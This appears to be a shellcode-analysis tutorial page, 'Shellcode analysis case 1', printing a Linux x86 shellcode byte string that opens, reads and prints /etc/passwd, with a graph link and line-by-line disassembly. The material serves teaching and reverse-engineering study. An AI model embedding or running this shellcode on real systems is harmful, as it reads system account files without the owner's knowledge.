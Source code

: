 ## Shellcode analysis case 1

----

#### Shellcode - Reads /etc/passwd
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73
\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f
\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03
\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92
\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd
\x80
```

Binary ninja graph:

![graph](https://raw.githubusercontent.com/x00pwn/lowlevel-shellcode-analysis/master/graph_images/case2-graph.png)

Disassembly:
```
0:  31 c9                   xor    ecx,ecx
2:  f7 e1                   mul    ecx
4:  b0 05                   mov    al,0x5
6:  51                      push   ecx
7:  68 73 73 77 64          push   0x64777373
c:  68 63 2f 70 61          push   0x61702f63
11: 68 2f 2f 65 74          push   0x74652f2f
16: 89 e3                   mov    ebx,esp
18: cd 80                   int    0x80
1a: 93                      xchg   ebx,eax
1b: 91                      xchg   ecx,eax
1c: b0 03                   mov    al,0x3
1e: 31 d2                   xor    edx,edx
20: 66 ba ff 0f             mov    dx,0xfff
24: 42                      inc    edx
25: cd 80                   int    0x80
27: 92                      xchg   edx,eax
28: 31 c0                   xor    eax,eax
2a: b0 04                   mov    al,0x4
2c: b3 01                   mov    bl,0x1
2e: cd 80                   int    0x80
30: 93                      xchg   ebx,eax
31: cd 80                   int    0x80
```
